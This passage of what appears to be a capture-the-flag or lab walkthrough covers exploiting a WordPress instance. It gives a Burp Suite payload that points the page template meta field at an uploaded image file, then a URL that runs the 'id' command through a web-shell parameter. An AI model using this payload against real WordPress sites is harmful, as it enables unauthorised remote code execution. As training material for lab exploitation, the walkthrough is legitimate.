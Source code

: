 
In burpsuite click the **Repeater** tab, then click tab 3, and add the following payload to the post data.

`&meta_input[_wp_page_template]=rem-e1666011994918.jpg`

![](/assets/images/jerome/screenshot-21.png)

In firefox, click **Posts**, click **Preview** to visualize the created post.

![](/assets/images/jerome/screenshot-22.png)

In the navigation bar type the following to check if the **id** command is executed.

`localhost:1337/wordpress/?p=333&cmd=id`

![](/assets/images/jerome/screenshot-23.png)

